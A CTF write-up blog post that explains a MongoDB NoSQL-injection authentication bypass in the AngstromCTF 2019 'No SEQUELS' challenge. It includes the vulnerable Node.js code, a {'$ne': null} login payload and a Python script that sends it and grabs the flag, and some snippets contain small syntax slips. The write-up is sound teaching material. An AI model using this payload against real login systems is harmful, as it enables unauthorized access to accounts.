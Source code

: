 ```yaml
---
title: "AngstromCTF 2019 | No SEQUELS and No SEQUELS 2 Web Writeup"
author: "CHERIEF Yassine (omega_coder)"
date: 2019-04-26T01:49:01+02:00
subtitle: "Mongodb Authentification bypass and Blind Injection"
tags: ["ctf", "nosql", "mongodb", "nosql-injection", "web", "writeup"]
categories: ["writeups", "security"]
bigimg: [{"src": "https://res.cloudinary.com/https-omega-coder-github-io/image/upload/b_rgb:000000,o_20/v1556407284/Screenshot_2019-04-28_01-17-11.png", "desc": "NoSQL Injection on Mongodb"}]
---
```



This blog post contains the writeup for two challenges (No SEQUELS & No SEQUELS 2), because they are related.

So let's start with No SEQUELS first.

**Category:** Web  
**Points:** 50  

-----------------------------

## Challenge Description 
> The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy](https://nosequels.2019.chall.actf.co).

> Hint said : *MongoDB is a safer alternative to SQL, right?*

#### What we can get from the informations stated above ?

- They are using MongoDB as a NoSQL engine.
- we can guess from hint that its a simple Auth bypass with MongoDB NoSQL injection.

We are presented a part of the source code of how the authentication happens.

![no_sequels_source_code](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1556371044/1_xKB1P9_JsMbdjYLkCsnHvw.png)

### Exaplanation

This simple authentication uses `JWT` (JSON Web Tokens), trying to hack the token won't help because the JWT token is being signed with a `secret key` and we don't know the key actually.

After reading the code, this is clearly a NoSQL Injection because of unsanitized user input.

The following two lines show that the variables username and password are not sanitized by anyway.

```js
var user = req.body.username;
var pass = req.body.password;
```

One more thing to notice, the line below show that the body can be parser using json regarded that we supply some json input with `Content-Type: application/json`.

```js
app.use(bodyParser.json());
```

NoSQL databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional `SQL` syntax.

The unsanitisation of username and password will lead to NoSQL code injection.  

What would happen if we post the following JSON data:

```http
POST https://nosequels.2019.chall.actf.co HTTP/1.1
Content-Type: application/json
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

By Sending this payload the username & password will be parsed as so, thus the query being  

```javascript
var query = {
    username: {"$ne": null};
    password: {"$ne": null};
}
    
```

Now, executing the line below from the app source code will return the first row, and we will be authenticated.  

```javascript
db.collection('users').findOne(query, function(err, user) {
    if (!user) {
        res.send("Wrong username or password");
        return 
    }
    res.cookie('token', jwt.sign({name: user.username, authnticated: true}, secret));
    res.redirect("/site");
});
```
Let's write a script to do the work for us, and get that first `FLAG`.

We will be using python requests module.  


```python
import requests
import re
URL = "https://nosequels.2019.chall.actf.co/login"
payload = '{"username": {"$ne": null}, "password": {"$ne": null}}'
cookies = {"token": "still_dont_know"} 
# we could have done it manually, and replaced the token with
# the token that your browser got for you

# init session
session = requests.Session()
# set re expression for token in headers
jwt_token_re = re.compile(r"token=(.*);")
# Getting the token for the first time

token_req = session.get(URL)
if token_req.status_code == 200:
    m = re.search(jwt_token_re, token_req.headers["Set-Cookie"])
    if m:
        # update token in cookies dict
        cookies["token"] = str(m.group(1))

    # Now let's send the json payload alongside the cookie we got above.
    # we will leave requests default behaviour to follow redirects which will redirect us to /site

flag_re = re.compile(r"actf{.*}")

# make request with mallicious payload

req = session.post(URL, json=payload, cookies=cookies, verify=False)
# verify=False is just for HTTPS connection

if req.status_code == 200:
    # FLAG match
    m = re.search(flag_re, req.text)
    if m:
        print("1st FLAG: ", m.group(0)) 
```

**`FLAG is : actf{no_sql_doesn’t_mean_no_vuln}`**




















